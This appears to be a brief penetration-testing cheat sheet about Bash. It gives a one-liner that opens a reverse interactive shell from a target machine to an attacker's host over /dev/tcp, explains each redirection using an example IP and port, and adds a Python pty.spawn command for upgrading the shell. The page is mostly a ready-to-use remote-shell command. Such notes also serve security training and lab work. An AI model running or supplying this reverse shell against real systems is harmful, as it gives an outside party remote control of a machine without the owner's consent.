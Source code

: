 # Bash

## Bash One-Liner Reverse Shell

Bash one-liner to create a reverse interactive shell from the target to your attack machine: 
- Enter the  following in the target: 

```
/bin/bash -c 'bash -i &> /dev/tcp/[attack ip]/[port] 0>&1'
```

From the Bash manpage: 
- `c string` : commands are read from string.
- `>& (same as &>)` : redirect standard output (1) and standard error (2); i.e., 2>&1 
  - This means: `&>` redirects the standard output (fd 1) and error (fd 2) to the socket opened to the IP 192.166.95.2 which would be listening on port 1234 (the port you indicate in [port] ).
- `0>&1` : redirect standard input (fd 0) to the same place as standard output (fd 1).
  - This would literally mean '0' (standard input) is attached to '1' (standard output).
  - Therefore, stdin (fd 0) is attached to stdout (fd 1) and (from the above:  &> ) we know that the stdin for this bash process is available to the attacker listening on port 1234.

---

## Bash Shell via Python

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
